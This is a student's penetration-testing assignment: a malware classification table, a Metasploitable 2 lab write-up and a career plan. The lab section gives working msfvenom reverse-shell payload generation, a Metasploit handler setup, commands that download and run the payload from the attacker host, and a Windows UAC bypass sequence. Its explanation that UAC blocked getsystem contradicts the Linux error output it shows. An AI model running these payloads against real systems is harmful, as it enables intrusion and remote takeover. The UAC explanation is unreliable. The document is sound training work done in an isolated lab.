

# Day 4 Assignment — Client-Side Attacks
**Student:** Aazib Ali  
**Date:** 08 Nov 2026  
**Lab:** Kali Linux (attacker) → Metasploitable 2 (target)

---

## Task A — Malware Classification Table

| Family | How it spreads | Real example | Control that stops it |
|---|---|---|---|
| Virus | Attaches to a legitimate file | Melissa (1999) | Email filtering, antivirus |
| Worm | Self-propagates across networks | WannaCry (2017) | Patching, network segmentation |
| Trojan | Poses as legitimate software | Emotet | User awareness, application control |
| Ransomware | Phishing, exploitation or worm | LockBit | Backups, email filtering, patching |
| Spyware | Bundled with software or trojan | Agent Tesla | Endpoint detection, application control |
| Adware | Bundled with free software | Fireball | Application control, ad blockers |
| Rootkit | Installed after another compromise | TDL-4 | Behavioural detection, Sysmon, SIEM |
| Botnet agent | Worm, trojan or exploitation | Mirai | Network monitoring, patching |
| Fileless malware | Uses legitimate system tools | PowerShell Empire | Behavioural detection, SIEM |

---

## Task B — Payload Lab Write-up

### Legal and Scope Statement
This test was performed exclusively against a Metasploitable 2 virtual machine that I own and control, running on an isolated host-only network with no internet connectivity. No payload was delivered to any third-party system or person. This activity is lawful under these conditions per the Prevention of Electronic Crimes Act 2016 (PECA), which prohibits delivering payloads to any system without written authorisation.

### Step 1 — Payload Generation
Generated a reverse TCP Meterpreter payload for Linux using msfvenom on Kali:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.88.133 LPORT=4433 -f elf -o shell.elf

Output:

Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: shell.elf

### Step 2 — Handler Started
Started a listener on Kali to receive the connection:

msfconsole -q
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.88.133
set LPORT 4433
run

Output:

[*] Started reverse TCP handler on 192.168.88.133:4433

### Step 3 — Payload Transferred and Executed
Served the payload over HTTP from Kali:

python3 -m http.server 8080

Downloaded and executed on Metasploitable 2:

wget http://192.168.88.133:8080/shell.elf
chmod +x shell.elf
./shell.elf

### Step 4 — Session Opened, getuid and getsystem
Once the payload ran, a Meterpreter session opened on Kali:

[*] Meterpreter session 1 opened (192.168.88.133:4433 -> 192.168.88.134:51994)

Running getuid confirmed the current user, and getsystem failed as expected:

meterpreter > getuid
Server username: msfadmin

meterpreter > getsystem
[-] The “getsystem” command requires the “priv” extension to be loaded
[-] Failed to load extension: The “priv” extension is not supported by this Meterpreter type (x86/linux)
[-] This extension is only supported by: windows/x64/meterpreter, windows/meterpreter

### Why UAC Blocked getsystem
UAC (User Account Control) is a Windows-only security boundary. Even when a Windows account is an administrator, it runs with a **filtered token** — a reduced version of its full privileges. The `getsystem` command fails because it cannot silently elevate past this filtered token without a bypass.

On Windows, the bypass sequence would be:

background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
set LHOST 192.168.88.133
set LPORT 4433
exploit
getsystem -t 1
getuid

Expected result after bypass: `Server username: NT AUTHORITY\SYSTEM`

The bypass abuses `fodhelper.exe` — a trusted Windows binary that auto-elevates without triggering a UAC prompt. This is a design flaw in Windows, not a cryptographic attack.

---

## Task C — Career Statement

I am aiming for the **Web Penetration Testing** specialism. My background in web development (WordPress, Elementor, custom front-end) gives me a strong understanding of how web applications are built — and therefore how they can be attacked.

**Entry credential:** eJPT (eLearnSecurity Junior Penetration Tester)

**Three portfolio items I will have in 3 months:**
1. A documented Wazuh home-lab setup write-up pushed to GitHub
2. Five TryHackMe room write-ups covering web exploitation uploaded to GitHub
3. One full web application pentest report on DVWA covering SQLi, XSS, and broken authentication
